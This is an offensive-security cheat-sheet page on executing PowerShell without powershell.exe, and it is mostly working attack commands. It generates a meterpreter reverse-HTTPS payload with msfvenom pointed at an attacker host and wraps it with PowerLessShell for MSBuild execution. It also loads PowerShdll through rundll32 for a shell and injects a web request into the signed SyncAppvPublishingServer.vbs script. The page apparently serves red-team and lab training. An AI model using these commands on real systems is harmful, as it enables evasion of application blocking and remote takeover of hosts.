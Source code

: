 # Powershell Without Powershell.exe

## Theory

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it. If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## Practice

{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}

{% tab title="PowerShdll" %}
We can load powerShdll with rundll32.exe to gain a shell

```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}
